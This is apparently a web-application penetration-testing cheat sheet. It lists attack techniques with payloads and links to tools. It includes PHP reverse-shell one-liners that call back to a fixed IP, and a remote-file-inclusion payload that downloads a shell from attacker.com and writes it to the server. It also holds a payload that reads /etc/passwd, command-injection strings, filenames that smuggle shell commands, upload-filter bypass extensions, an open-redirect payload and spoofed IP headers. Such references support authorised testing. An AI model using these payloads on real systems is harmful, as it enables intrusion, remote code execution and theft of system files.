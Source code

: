 # WEB

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


XSRF (Cross-site Request Forgery)
---------------------------------

* [CSurfer](https://github.com/asaafan/CSurfer/) - CSRF guard hiding extension for Burp
* [CSRF-Request-Builder](https://github.com/TheRook/CSRF-Request-Builder/) - tool for testing CSRF against web services


Command Injection
-----------------

* Try to use pipe, ampersands, double ampersands, colon: `1 | uname -a & users & id`


File Inclusion
==============

Local File Inclusion
--------------------

Example: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  

Remote File Inclusion
---------------------

Example: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`  
* [PHP File Inclusion Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)  
* [Uniscan](https://sourceforge.net/projects/uniscan/) - simple RFI, LFI and RCE vulnerability scanner  
* [rfishell](https://github.com/superkojiman/rfishell) - provide a shell-like interface when exploiting RFI vulns  

Exploitation examples:  
```
http://victim.com/i_dont_exist.php?code=<?php file_put_contents("shell.php", file_get_contents("http://attacker.com/shell.txt")) ?>
http://10.0.17.147/wordpress/wp-content/plugins/mygallery/myfunctions/mygallerybrowser.php?myPath=http://10.0.17.145/test/test.txt? //test.txt contains <?php print system("cat /etc/passwd"); ?>
```
When appending questionmark to the end of the payload, the remainder of the local PHP code is treated as a parameter to the RFI included code. Also try multiple questionmarks, nullbytes `%00`.  
Metasploit Web Delivery could also be useful in order to get an interactive shell.


File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path

* Uploading `.htaccess` and remapping filetypes
* Shellcode in filename:
```
.png; ls -la;
; whoami; .png
```

Open Redirect
=============

If parameter takes URL but redirects incorrectly, try adding questionmark in the payload, e..g:   
`http://vulnerable/function?id=1&retURL=http://evil.com/?`

Language-Specific
=================

PHP
---

* [IonCube V8.2 + PHP Auto - Fixer Decoder](http://phpdecode.blogspot.co.at/)

PHP Deobfuscators

* [UnPHP](https://www.unphp.net/) - the online PHP Decoder
* [PHP Beautifier](http://phpbeautifier.com/) - beautify and format your PHP code
* [PHP Sandbox](http://sandbox.onlinephpfunctions.com/)


XXE (XML External Entity Injection)
===================================

* [Preventing XXE in PHP](https://websec.io/2012/08/27/Preventing-XEE-in-PHP.html)

SSL / TLS
=========

* [SSL Checklist for Pentesters - the Manual Cheatsheet](http://www.exploresecurity.com/wp-content/uploads/custom/SSL_manual_cheatsheet.html)

SSI (Server-Side Include)
-------------------------

`<!--#echo var="DATE_LOCAL" -->`

IP Spoofing
-----------
```
Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  
```
Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```

Browser-Related
---------------

* [Chrome "No Web Security"](https://bugs.chromium.org/p/chromium/issues/detail?id=575690) - Chrome can be started with less web security mode using flag "--disable-web-security"  
* Pentesting plugins: [Firebug](http://getfirebug.com/), [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/), [FoxyProxy](https://getfoxyproxy.org/), [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), [FileStorage Plus!](https://addons.mozilla.org/de/firefox/addon/firestorage-plus/), [NoScript Security Suite](https://addons.mozilla.org/en-US/firefox/addon/noscript/), [HackBar](https://addons.mozilla.org/en-US/firefox/addon/hackbar/)  


Information Leakage
-------------------
```
GET / HTTP/1.0
CONNECTION:CLOSE


```
Send this request using Burp Repeater. Might leak internal IPs, hostnames etc. Note the two newlines after CONNECTION:CLOSE.


CMS-Specific
============

Drupal
------

* [Attacking Drupal](http://www.slideshare.net/heinzarelli/attacking-drupal)
* [DPScan](http://www.ehacking.net/2012/02/dpscan-drupal-security-scanner-tutorial.html)
* [Drupal by Mad Irish](http://www.madirish.net/tag/drupal) - good resource on Drupal vulns
* Find out which version: `domain.com/changelog.txt`

Liferay
-------

* [LiferayScan](https://github.com/bcoles/LiferayScan) - simple remote scanner for Liferay Portal
* [Hacking Liferay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html) - version 6.06
* [Liferay Portal Security Research](http://www.procheckup.com/media/194945/liferay.pdf) - version 6.05
* [Liferay Portlet Shell](https://www.insinuator.net/tag/liferay/)
* [Liferay 6.1 can be compromised in its default configuration](http://seclists.org/bugtraq/2012/Apr/151)
* [Liferay Portal 7.0.x <= 7.0.2 - Pre-Auth RCE Exploit](http://0day.today/exploit/23043)
* [Hacking LifeRay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html)
* [Hacking Liferay](http://blog.etapix.com/2013/02/hacking-liferay-securing-against-online.html)
